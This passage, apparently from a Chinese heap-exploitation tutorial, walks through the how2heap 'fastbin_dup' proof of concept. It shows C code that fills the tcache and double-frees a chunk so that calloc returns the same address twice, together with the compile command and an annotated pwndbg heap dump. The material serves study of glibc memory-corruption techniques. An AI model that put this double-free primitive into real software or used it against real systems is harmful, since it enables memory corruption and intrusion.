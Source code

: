 ```c
	free(a);

	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);

	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	printf("Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	a = calloc(1, 8);
	b = calloc(1, 8);
	c = calloc(1, 8);
	printf("1st calloc(1, 8): %p\n", a);
	printf("2nd calloc(1, 8): %p\n", b);
	printf("3rd calloc(1, 8): %p\n", c);

	assert(a == c);
}
```

> POC可以测试系统中是否有此漏洞存在，如果不存在会触发assert断言
>

POC运行效果如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1618833932458-f32b9dea-64b1-4b7f-a768-7c9669cb3806.png)

## POC分析
> 使用的编译命令：gcc -g fastbin_dup -o fastbin_dup
>

我们主要分析main函数中的代码，首先来看第一部分：

```c
	void *ptrs[8];
	for (int i=0; i<8; i++) {
		ptrs[i] = malloc(8);
	}
	for (int i=0; i<7; i++) {
		free(ptrs[i]);
	}
```

上述代码申请了8个大小为8的堆块，其指针返回到void *ptr[8]中，然后释放前7个堆块，因为这里我们要演示的是fastbin_dup，所以首先要释放7个填满tcachebin：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1618834996719-66fcee1a-6ac1-4ddf-b8fd-ce4bd16db954.png)

```c
pwndbg> x/120gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x0000000000000007	0x0000000000000000
......
0x555555757050:	0x0000555555757320	0x0000000000000000
......
0x555555757250:	0x0000000000000000	0x0000000000000021 #index1(tcachebin)
0x555555757260:	0x0000000000000000	0x0000555555757010
0x555555757270:	0x0000000000000000	0x0000000000000021 #index2(tcachebin)
0x555555757280:	0x0000555555757260	0x0000555555757010
0x555555757290:	0x0000000000000000	0x0000000000000021 #index3(tcachebin)
0x5555557572a0:	0x0000555555757280	0x0000555555757010
```